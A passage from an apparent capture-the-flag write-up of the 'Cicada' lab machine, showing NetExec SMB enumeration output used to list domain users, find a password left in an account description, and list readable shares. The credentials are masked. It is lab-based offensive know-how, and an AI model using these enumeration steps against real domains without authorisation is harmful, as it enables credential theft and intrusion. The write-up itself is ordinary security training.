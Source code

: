 ## Privilege escalation

The next few steps may feel repetative, but the point is to escalate our permissions and enumerate resources until we can find our user flag.  

- Next, we will enumerate the domain users on the victim machine once more by continuing to exploit the SMB service, but with the credentials belonging to User MW. The goal is to gather as much intelligence about the users and environment as possible.

- Enumerating the domain users as User MW reveals another interesting user object consisting of a username and password in the description attribute.

    - To avoid confusion in the next steps, I will refer to this username/password combination as User DO.

    #### NXC Result

    ```
    SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
    SMB                      10.10.11.35     445    CICADA-DC        [+] cicada.htb\m******.w********:*******************
    SMB                      10.10.11.35     445    CICADA-DC        -Username-                    -Last PW Set-       -BadPW- -Description-
    SMB                      10.10.11.35     445    CICADA-DC        Administrator                 2024-08-26 20:08:03 0       Built-in account for administering the computer/domain
    SMB                      10.10.11.35     445    CICADA-DC        Guest                         2024-08-28 17:26:56 0       Built-in account for guest access to the computer/domain
    SMB                      10.10.11.35     445    CICADA-DC        krbtgt                        2024-03-14 11:14:10 0       Key Distribution Center Service Account
    SMB                      10.10.11.35     445    CICADA-DC        j***.s*******                 2024-03-14 12:17:29 0
    SMB                      10.10.11.35     445    CICADA-DC        s****.d*******                2024-03-14 12:17:29 0
    SMB                      10.10.11.35     445    CICADA-DC        m******.w********             2024-03-14 12:17:29 0
    SMB                      10.10.11.35     445    CICADA-DC        d****.o*******                2024-03-14 12:17:29 0       Just in case I forget my password is ************
    SMB                      10.10.11.35     445    CICADA-DC        e****.o*****                  2024-08-22 21:20:17 0
    ```

- Once more we enumerate, but this time let's take a look at what shares User DO has access to.

    #### NXC Result

    ```
    SMB                      10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
    SMB                      10.10.11.35     445    CICADA-DC        [+] cicada.htb\d****.o*******:************
    SMB                      10.10.11.35     445    CICADA-DC        [*] Enumerated shares
    SMB                      10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
    SMB                      10.10.11.35     445    CICADA-DC        -----           -----------     ------
    SMB                      10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
    SMB                      10.10.11.35     445    CICADA-DC        C$                              Default share
    SMB                      10.10.11.35     445    CICADA-DC        DEV             READ         
    SMB                      10.10.11.35     445    CICADA-DC        HR              READ         
    SMB                      10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
    SMB                      10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share